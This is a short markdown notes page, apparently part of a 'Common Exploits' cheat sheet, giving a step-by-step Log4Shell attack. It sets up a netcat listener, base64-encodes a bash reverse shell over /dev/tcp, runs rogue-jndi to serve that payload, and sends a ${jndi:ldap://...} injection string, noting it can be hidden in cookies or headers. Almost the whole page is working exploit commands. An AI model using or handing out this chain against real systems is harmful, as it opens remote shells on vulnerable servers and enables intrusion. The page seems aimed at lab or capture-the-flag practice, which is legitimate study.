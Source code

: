 ```yaml
---
title: Log4Shell
parent: Common Exploits
layout: default
nav_order: 1
---
```


1. On own machine, `nc -lvnp 9001`
2. On own machine another terminal, run `ifconfig` and `echo 'bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"' | base64`
3. Under rogue-jndi, `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "YOUR TUN0 IP ADDRESS"`
4. Send (can sometimes be in tricky places like rememberme or headers, read the cve): 
`${jndi:ldap://xx:1389/tomcat}`